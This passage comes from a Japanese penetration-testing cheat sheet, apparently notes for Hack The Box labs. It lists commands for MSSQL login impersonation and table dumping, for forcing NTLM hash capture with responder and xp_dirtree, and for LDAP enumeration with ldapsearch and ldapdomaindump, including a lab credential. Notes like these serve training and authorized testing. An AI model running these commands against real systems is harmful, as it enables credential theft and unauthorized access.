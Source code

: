 データベース(hrappdb)にアクセスする
use hrappdb

偽装できるユーザーを列挙する
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

偽装できるユーザーでログインする
EXECUTE AS LOGIN = 'hrappdb-reader'

(drappdbというデータベースのテーブル)テーブルを列挙する
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;

テーブル(sysauthテーブル)内の情報を列挙する
select * from sysauth;
```


  ### MSSQLにアクセスする(impacket-mssqlclient)
  impacketのツールを使う

  ```
# impacket-mssqlclient <target domain>/<Username>:<Password>@<IP>
```

  ### MSSQLにアクセスした際のNTLMハッシュの取得
  MSSQLに再接続する際の通信をキャプチャすることでハッシュを取得し、ハッシュを解読することでパスワードを取得できる。  
  自分の端末でresponderを使用してキャプチャする  
  ```
  sudo responder -I tun0
  ```


  やられ側
  ``` xp_dirtree ``` や ``` xp_cmdshell ``` を使用して実行する
  ```
 SQL> EXEC xp_dirtree '\\<自分のIP>\'
  ```
なお、SQLから侵入した場合は、SQLのLogを漁ることでヒントを見つけることができる 

### 資格情報からLDAPを列挙する

LDAPプロトコルからAD内のユーザー情報を列挙できる  
ldapsearch,ldapdomaindump  

```
# ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://dc.support.htb -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | tee ldap_dc.support.htb.txt
ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
```

#### ldapsearchの結果からグループ名やユーザー名を絞る

```
$ ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" > ldap-anonymous.out

